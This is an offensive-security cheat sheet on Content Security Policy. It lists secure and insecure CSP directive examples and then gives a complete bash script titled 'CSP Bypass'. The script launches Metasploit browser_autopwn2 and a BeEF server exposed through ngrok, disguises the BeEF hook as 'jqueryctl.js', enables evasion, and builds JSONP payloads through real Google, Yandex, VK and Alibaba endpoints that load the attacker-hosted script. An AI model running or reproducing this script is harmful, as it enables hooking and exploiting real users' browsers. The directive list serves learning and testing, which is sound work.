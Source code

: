 # Content Security Policy

## Check List

* [ ] Review the Content-Security-Policy header or meta element to identify misconfigurations.

## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
Inspect HTTP response headers of target
{% endstep %}

{% step %}
Observe the Content-Security-Policy header includes script-src 'unsafe-inline'
{% endstep %}

{% step %}
This allows inline scripts execution, weakening CSP protections against Cross-Site Scripting (XSS)
{% endstep %}

{% step %}
Although no direct exploit is shown, the presence of `unsafe-inline` increases risk of script injection attacks
{% endstep %}

{% step %}
Best practice Avoid `unsafe-inline` in `script-src` to reduce XSS attack surface
{% endstep %}
{% endstepper %}

***

{% stepper %}
{% step %}
Appending % or %" to the URL endpoint causes the browser to misinterpret or relax CSP enforcement
{% endstep %}

{% step %}
By inspecting and editing the HTML in the dev tools, an attacker can inject inline JavaScript and use this cheat sheet despite a strict script-src policy, leading to a bypass of the CSP
{% endstep %}
{% endstepper %}

***

### CSP Header

#### [cURL](https://curl.se/)

```bash
curl -I $WEBSITE | grep "content-security-policy"
```

### CSP Parameters

{% hint style="info" %}
default-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: default-src 'self'
```

{% hint style="info" %}
default-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: default-src *
```

{% hint style="info" %}
script-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: script-src 'self' 'nonce-random123'
```

{% hint style="info" %}
script-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: script-src 'unsafe-inline'
```

{% hint style="info" %}
style-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: style-src 'self' 'sha256-abc123'
```

{% hint style="info" %}
style-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: style-src 'unsafe-inline'
```

{% hint style="info" %}
img-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: img-src 'self' https://cdn.example.com
```

{% hint style="info" %}
img-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: img-src *
```

{% hint style="info" %}
connect-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: connect-src 'self' https://api.example.com
```

{% hint style="info" %}
connect-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: connect-src *
```

{% hint style="info" %}
font-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: font-src 'self' https://fonts.gstatic.com
```

{% hint style="info" %}
font-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: font-src *
```

{% hint style="info" %}
object-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: object-src 'none'
```

{% hint style="info" %}
object-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: object-src *
```

{% hint style="info" %}
frame-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-src 'self' https://trusted.example.com
```

{% hint style="info" %}
frame-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-src *
```

{% hint style="info" %}
frame-ancestors (Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-ancestors 'none'
```

{% hint style="info" %}
frame-ancestors (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-ancestors *
```

{% hint style="info" %}
sandbox (Secure)
{% endhint %}

```bash
Content-Security-Policy: sandbox
```

{% hint style="info" %}
sandbox (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: sandbox allow-scripts allow-forms
```

### CSP Bypass

#### [BeEF ](https://beefproject.com/)& JSONP

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beef-csp-bypass.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Start Metasploit
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y; use auxiliary/server/browser_autopwn2; set LHOST $WAN; set URIPATH /pwn; run -z" &>/dev/null &
sleep 1

# Start ngrok and extract public URL
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi

printf "${GREEN}[*] BeEF configuration updated...${RESET}\n"

# Start BeEF
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Inject payload into JSONP callback
inject_payload()
{
    local url="$1"
    local js_payload="var script=document.createElement('script');script.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(script);"
    local encoded_callback=$(echo -n "$js_payload" | jq -sRr @uri)
    local test_url="${url/JSONP/$encoded_callback}"
    printf "%b\n" "\n${YELLOW}[*] Payload: <script src=\"${test_url}\"></script> ${RESET}\n"
}

# Target APIs for JSONP exploitation
targets=(
    "https://api.mixpanel.com/track/?callback=JSONP"
    "https://www.google.com/complete/search?client=chrome&q=hello&callback=JSONP"
    "https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=JSONP"
    "https://accounts.google.com/o/oauth2/revoke?callback=JSONP"
    "https://api-metrika.yandex.ru/management/v1/counter/1/operation/1?callback=JSONP"
    "https://api.vk.com/method/wall.get?callback=JSONP"
    "https://mango.buzzfeed.com/polls/service/editorial/post?poll_id=121996521&result_id=1&callback=JSONP"
    "https://ug.alibaba.com/api/ship/read?callback=JSONP"
)

# Run the attack
for target in "${targets[@]}"; do
    inject_payload "$target"
done

printf "\n"
printf "%b[*] BeEF Panel: https://${NGHOST}/ui/panel%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF USER: unk9vvn%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF PASS: 00980098%b\n" "$CYAN" "$RESET"
printf "%bBeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute%b\n" "$GREEN" "$RESET"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beef-csp-bypass.sh;sudo ./beef-csp-bypass.sh
```
